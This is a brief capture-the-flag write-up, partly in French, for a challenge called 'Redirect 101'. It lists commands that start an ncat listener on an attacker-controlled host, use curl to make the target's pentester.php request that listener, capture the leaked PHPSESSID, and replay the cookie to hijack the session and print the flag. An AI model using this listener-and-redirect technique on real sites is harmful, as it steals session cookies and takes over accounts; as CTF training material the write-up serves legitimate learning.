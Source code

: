 # Redirect 101
Used a previous writeup from a previous year xD (credz to Marco l'Pogo)

# terminal 1
``ssh root@shell.ctf``

# installer ncat parce que nc écoute pas sur ipv6
``apt install ncat``   
``ncat -lv 12345``

# terminal 2
``curl -G chal5.hackademy.ctf/pentester.php --data-urlencode "url=http://shell.ctf:12345"``

# noter le PHPSESSIONID affiché dans le terminal 1
``curl chal5.hackademy.ctf -b "PHPSESSID=o136t04b24elhtdqgf9pit5fn4"``

``FLAG-mTKmrCUzf82LPdmK7x8yxpcAlo0R3hsF``
